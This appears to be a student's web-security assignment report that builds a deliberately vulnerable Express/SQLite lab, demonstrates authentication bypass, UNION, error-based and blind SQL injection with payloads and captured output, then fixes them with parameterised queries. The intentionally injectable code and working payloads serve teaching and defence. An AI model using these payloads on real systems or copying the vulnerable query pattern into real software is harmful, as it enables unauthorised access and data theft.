





# WEB404 — SQL Injection: Build, Attack, Secure

**Student:** Pema Tshering Yangchen (2230295) — "Pom"
**Module:** WEB404 (Web Security)
**Assignment:** 2 — *Set up a vulnerable web application and perform various types of SQL injection attacks.*
**Folder:** `Assignment2/`

---

## Introduction

SQL injection (SQLi) remains one of the most impactful web vulnerabilities because it collapses the boundary between *code* and *data*: when user input is concatenated directly into a SQL string, the database can no longer tell the difference between the query a developer intended and the query an attacker supplied. This assignment builds a small but genuine web application backed by a real SQL database, deliberately exposes it through string-concatenated queries, then performs four distinct classes of SQL injection against it — authentication bypass, UNION-based extraction, error-based disclosure, and blind boolean inference. Each attack is run against a live server and its real output is recorded. The application also ships a secured version of every endpoint, and the same attack payloads are replayed against it to confirm that parameterised queries and input validation close the vulnerability without breaking legitimate use.

---

## Table of Contents

1. [Objective](#1-objective)
2. [Project Structure & File Reference](#2-project-structure--file-reference)
3. [Build Phase — The Vulnerable Application](#3-build-phase--the-vulnerable-application)
4. [How to Run](#4-how-to-run)
5. [Attack Phase](#5-attack-phase)
   - [5.1 Attack #1 — Authentication Bypass (tautology)](#51-attack-1--authentication-bypass-tautology)
   - [5.2 Attack #2 — UNION-based Extraction](#52-attack-2--union-based-extraction)
   - [5.3 Attack #3 — Error-based Disclosure](#53-attack-3--error-based-disclosure)
   - [5.4 Attack #4 — Blind Boolean-based Inference](#54-attack-4--blind-boolean-based-inference)
6. [Fix / Secure Phase](#6-fix--secure-phase)
7. [Attack vs Secure — Summary Table](#7-attack-vs-secure--summary-table)
8. [Conclusion](#8-conclusion)

---

## 1. Objective

Set up a vulnerable web application and perform various types of SQL injection attacks against it, then implement and verify security measures that prevent them. This report covers the **build phase**, the **attack phase (four distinct SQLi classes)**, and the **fix / secure phase**.

---

## 2. Project Structure & File Reference

```
Assignment2/
├── sqli-lab/
│   ├── app.js                  ← Express server: vulnerable AND secure routes
│   ├── db.js                   ← built-in SQLite DB, seeded with users/products/secrets
│   ├── package.json
│   ├── .gitignore
│   └── attacks/
│       └── run-attacks.sh      ← reproduces every attack in this report
└── README.md                   ← this report
```

| File | Purpose |
|---|---|
| [`app.js`](./sqli-lab/app.js) | Express server. Vulnerable routes (`/login-vulnerable`, `/products-vulnerable`) build SQL by string concatenation; secure routes (`/login-secure`, `/products-secure`) use parameterised queries + input validation. |
| [`db.js`](./sqli-lab/db.js) | Creates an in-memory SQLite database (Node's built-in `node:sqlite`) and seeds `users`, `products`, and a `secrets` table used to prove UNION reach. |
| [`attacks/run-attacks.sh`](./sqli-lab/attacks/run-attacks.sh) | One script that runs all four attack classes and then replays them against the secure routes. |

> **Tech stack:** Node.js + Express 5, with Node's built-in `node:sqlite` module — so the lab uses a **real SQL engine** (authentic injection) with no external database driver to install.

---

## 3. Build Phase — The Vulnerable Application

### 3.1 Database (`db.js`)

Three tables are seeded. Passwords are stored in **plaintext on purpose** so that dumped data is obvious in the demo (this is itself a deliberate weakness, noted in the conclusion).

| Table | Columns | Role in the lab |
|---|---|---|
| `users` | `id, username, password, role` | The target of auth bypass and credential theft |
| `products` | `id, name, category, price` | The "public" search feature that is the injection entry point |
| `secrets` | `id, label, value` | Data **no route is meant to expose** — used to prove UNION can reach arbitrary tables |

### 3.2 Intentional weaknesses (the single root cause)

Both vulnerable routes build their SQL like this:

```javascript
// POST /login-vulnerable
const sql = `SELECT id, username, role FROM users
             WHERE username = '${username}' AND password = '${password}'`;

// GET /products-vulnerable
const sql = `SELECT id, name, category, price FROM products
             WHERE category = '${category}'`;
```

Untrusted input (`username`, `password`, `category`) is spliced **directly into the SQL text**. There is no other trick in this lab — every attack below is a consequence of this one mistake. The vulnerable routes also echo the raw database error message back to the client, which is what makes the error-based attack possible.

---

## 4. How to Run

```bash
cd Assignment2/sqli-lab
npm install
node app.js            # -> SQLi lab running on http://localhost:3001

# in a second terminal:
bash attacks/run-attacks.sh
```

---

## 5. Attack Phase

All output below is the **real response** captured from the running server.

### 5.1 Attack #1 — Authentication Bypass (tautology)

**Idea:** inject a condition that is always true, and/or comment out the rest of the query, so the `WHERE` clause matches a row regardless of the password.

**Control — honest wrong password is rejected:**
```json
POST /login-vulnerable  {"username":"admin","password":"wrong"}
{"error":"invalid credentials"}
```

**1b — classic `OR` tautology with a comment:**
```
username:  ' OR '1'='1' --
password:  x
```
Resulting SQL (the `--` comments out the password check):
```sql
SELECT id, username, role FROM users
WHERE username = '' OR '1'='1' --' AND password = 'x'
```
```json
{"message":"Welcome, pom","role":"user"}
```

**1c — target the admin account directly:**
```
username:  admin' --
password:  x
```
```json
{"message":"Welcome, admin","role":"admin"}
```
Logged in as **admin with no password**.



> **Viva note:** a plain `' OR '1'='1` *without* the comment actually fails here, because SQL binds `AND` tighter than `OR` — the injected `OR` gets neutralised by `AND password = '...'`. Commenting out the tail (`--`) is what makes the tautology reliable. This is a good "I understand *why*, not just the payload" point.

**Classification:** CWE-89 (SQL Injection) · OWASP A03:2021 – Injection · results in broken authentication.

---

### 5.2 Attack #2 — UNION-based Extraction

**Idea:** `UNION SELECT` appends attacker-chosen rows to the result set. The injected `SELECT` must return the **same number of columns** as the original query (here, 4).

**2a — dump every username and password:**
```
category:  ' UNION SELECT id, username, password, role FROM users --
```
```json
{"count":3,"rows":[
  {"id":1,"name":"pom","category":"testpass123","price":"user"},
  {"id":2,"name":"admin","category":"S3cr3t-Admin","price":"admin"},
  {"id":3,"name":"guest","category":"guest","price":"user"}]}
```
The `username`/`password` values land in the `name`/`category` fields of the product JSON — the attacker just reads them from wherever they surface.

**2b — reach a table no endpoint exposes (`secrets`):**
```
category:  ' UNION SELECT id, label, value, '0' FROM secrets --
```
```json
{"count":3,"rows":[
  {"id":1,"name":"api_key","category":"sk_live_9f2b1c4d7e8a","price":"0"},
  {"id":2,"name":"db_root_pw","category":"r00t-P@ssw0rd!","price":"0"},
  {"id":3,"name":"recovery_code","category":"ALPHA-BRAVO-2026","price":"0"}]}
```
A product-search box leaked API keys and the DB root password — demonstrating that injection reaches the **whole database**, not just the queried table.



**Classification:** CWE-89 · confidentiality breach / sensitive data exposure.

---

### 5.3 Attack #3 — Error-based Disclosure

**Idea:** when the application returns database error text, malformed input makes the engine reveal information about itself and confirms the injection point.

**3a — unbalanced quote breaks the query; the error is echoed back:**
```
category:  '
```
```json
{"error":"unrecognized token: \"'''\""}
```
A verbatim database error reaching the client confirms the input is injectable and leaks engine behaviour.

**3b — leak the database engine and version:**
```
category:  ' UNION SELECT sqlite_version(), 2, 3, 4 --
```
```json
{"count":1,"rows":[{"id":"3.51.3","name":2,"category":3,"price":4}]}
```
The attacker now knows the backend is **SQLite 3.51.3** and can tailor further payloads.



**Classification:** CWE-209 (Information Exposure Through an Error Message) + CWE-89.

---

### 5.4 Attack #4 — Blind Boolean-based Inference

**Idea:** even when the app shows *no data and no errors*, a difference between a TRUE and a FALSE response is an **oracle**: an attacker asks yes/no questions about the data and reconstructs it one character at a time.

**4a / 4b — establish the oracle:**
```
category: electronics' AND '1'='1     -> {"count":2,...}   (TRUE  = 2 rows)
category: electronics' AND '1'='2     -> {"count":0,...}   (FALSE = 0 rows)
```

**4c / 4d — ask a question about secret data:**
```
...AND (SELECT substr(password,1,1) FROM users WHERE username='admin')='S'
  -> {"count":2,...}   admin's password starts with 'S'  (TRUE)

...AND (SELECT substr(password,1,1) FROM users WHERE username='admin')='X'
  -> {"count":0,...}   it does not start with 'X'          (FALSE)
```
Repeating this across every position and character fully recovers `S3cr3t-Admin` without the app ever *displaying* it. (A script would automate the character search; two probes here prove the technique.)



**Classification:** CWE-89 — blind SQL injection.

---

## 6. Fix / Secure Phase

The secure routes in [`app.js`](./sqli-lab/app.js) apply the fixes below. The vulnerable routes are **kept in place, unmodified**, purely for the before/after comparison — they are not part of the real application flow.

### Fix #1 — Parameterised queries (the core fix)

Values are bound as **parameters** (`?` placeholders), so the database treats them strictly as data and never as SQL — no quote the attacker types can "break out" of the value.

```javascript
// SECURE login
const stmt = db.prepare(
  "SELECT id, username, role FROM users WHERE username = ? AND password = ?"
);
const row = stmt.get(username, password);

// SECURE product search
db.prepare("SELECT id, name, category, price FROM products WHERE category = ?")
  .all(category);
```

### Fix #2 — Input validation / allowlisting (defence in depth)

Where the set of valid values is known, reject anything outside it before the query runs:

```javascript
const ALLOWED_CATEGORIES = new Set(["electronics", "furniture"]);
if (!ALLOWED_CATEGORIES.has(category)) {
  return res.status(400).json({ error: "unknown category" });
}
```
Type checks (`typeof username !== "string"`) also reject structured/array injection payloads.

### Fix #3 — Don't leak database errors

The secure routes never return raw `err.message` to the client, which removes the error-based channel (Attack #3). In production this pairs with generic error pages and server-side-only logging.

### Additional hardening (discussed, standard practice)

- **Least privilege:** the app's DB account should only `SELECT/INSERT/UPDATE` the tables it needs — never `DROP`, and never be the DB root user, so a missed injection point cannot destroy or read the whole schema.
- **Hashed passwords:** real systems store `bcrypt` hashes (as done in Assignment 1), so even a successful dump yields no usable plaintext — unlike the deliberate plaintext here.

### Verification — the same payloads now fail

```
[S1] auth bypass  (admin' --)        vs /login-secure    -> {"error":"invalid credentials"}
[S2] UNION dump                      vs /products-secure -> {"error":"unknown category"}
[S3] legitimate ?category=electronics vs /products-secure -> {"count":2, ...}   (still works)
```

The injection payloads are now treated as literal, meaningless strings; legitimate requests are unaffected.



---

## 7. Attack vs Secure — Summary Table

| # | Attack | Root cause | Fix | Verified result |
|---|---|---|---|---|
| 1 | Authentication bypass | Input concatenated into `WHERE` clause | Parameterised query (`?`) | `admin' --` → `invalid credentials` |
| 2 | UNION extraction | Same, in product search | Parameterised query + category allowlist | `UNION SELECT` → `unknown category` |
| 3 | Error-based disclosure | Raw DB errors returned to client | Parameterised query + suppress error text | No query string reaches the engine |
| 4 | Blind boolean inference | Query result controllable by injected condition | Parameterised query + allowlist | Injected condition never parsed as SQL |

---

## 8. Conclusion

Every attack in this assignment — authentication bypass, UNION extraction, error-based disclosure, and blind boolean inference — traces back to a single root cause: untrusted input concatenated directly into SQL text. Because the database received a *string* rather than a *query plus bound data*, it had no way to know which characters were meant as structure and which as values, and the attacker exploited exactly that ambiguity. The UNION attack in particular showed that the blast radius of one injectable parameter is the entire database, not just the table a route appears to touch: a product-search box was enough to read API keys and the root password out of a `secrets` table that no endpoint was ever meant to expose.

The fix was not to filter or escape the dangerous characters one by one — an approach that is fragile and repeatedly bypassed in practice — but to remove the ambiguity at its source. Parameterised queries send the SQL structure and the data to the database *separately*, so user input can only ever be a value, never code; input validation and allowlisting add a second layer that rejects malformed input before it reaches the query at all; and not leaking raw error messages closes the reconnaissance channel. Replaying the identical payloads against the secured endpoints confirmed that all four attacks fail while legitimate requests continue to work — demonstrating that the vulnerability was genuinely closed at the root, not merely hidden.
